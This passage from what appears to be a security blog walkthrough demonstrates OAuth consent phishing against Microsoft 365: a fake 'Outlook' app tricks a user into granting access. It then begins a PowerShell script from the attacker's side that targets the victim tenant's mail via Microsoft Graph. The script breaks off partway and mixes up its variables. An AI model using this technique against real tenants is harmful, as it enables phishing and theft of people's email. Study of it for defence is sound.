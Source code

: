 ![hack oauth 04](/assets/img/2021-02-08/hack_oauth_04.png)

Here it's obvious, but let's now imagine a good phishing attack with a good logo, a real company name and an application called Outlook... If user does not read the scope and consent, this is where the fun begins! Let's click accept :D.

![hack oauth 05](/assets/img/2021-02-08/hack_oauth_05.png)

**The user has now signed in. We don't really care what happen now on the app side, it's game over.** Let's go back on the attacker side and see what we can do now!

```powershell

#Define parameters
$tenantId = <Customer tenantId> #<---- From attacker side to customer tenant !!!
$AppId = <attacker app registration Id>
#Mandatory to run the script with application permission
$Secret = Read-Host -AsSecureString #secret generated previously
$uri = "A customer email address"

#Create variables
$uri = "https://graph.microsoft.com/v1.0/users/$UPN/messages"
#Generate Access token for an confidential app
```